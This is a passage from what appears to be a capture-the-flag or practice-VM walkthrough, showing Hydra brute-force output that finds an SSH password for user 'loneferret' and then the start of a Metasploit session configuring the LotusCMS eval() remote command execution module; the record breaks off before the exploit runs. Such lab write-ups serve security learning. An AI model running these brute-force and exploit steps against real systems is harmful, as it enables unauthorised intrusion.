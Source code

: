     Hydra (http://www.thc.org/thc-hydra) starting at 2016-12-21 23:02:32  
    [DATA] max 4 tasks per 1 server, overall 64 tasks, 100003 login tries (l:1/p:100003), ~390 tries per task  
    [DATA] attacking service ssh on port 22  
    [22][ssh] host: 192.168.1.70   login: loneferret   password: starwars  
    1 of 1 target successfully completed, 1 valid password found  
    Hydra (http://www.thc.org/thc-hydra) finished at 2016-12-21 23:03:27  
    

  
We did find a valid login! Are there other ways to get a shell?  
  

#### Method 2: LotusCMS eval()

####

Although I'm not a fan of using metasploit for those VMs it was too
tempting...  
  

    
    
    root@kali:~# msfconsole  
    msf > search lotuscms  
    ...  
    Matching Modules  
    ================  
      
       Name                              Disclosure Date  Rank       Description  
       ----                              ---------------  ----       -----------  
       exploit/multi/http/lcms_php_exec  2011-03-03       excellent  LotusCMS 3.0 eval() Remote Command Execution  
      
      
      
    msf > use exploit/multi/http/lcms_php_exec  
      
    msf exploit(lcms_php_exec) > show options  
      
    Module options (exploit/multi/http/lcms_php_exec):  
      
       Name     Current Setting  Required  Description  
       ----     ---------------  --------  -----------  
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]  
       RHOST                     yes       The target address  
       RPORT    80               yes       The target port  
       SSL      false            no        Negotiate SSL/TLS for outgoing connections  
       URI      /lcms/           yes       URI  
       VHOST                     no        HTTP server virtual host  
      
      
    Exploit target:  
      
       Id  Name  
       --  ----  
       0   Automatic LotusCMS 3.0  
      
      
      
    msf exploit(lcms_php_exec) > set URI /  
    URI => /  
      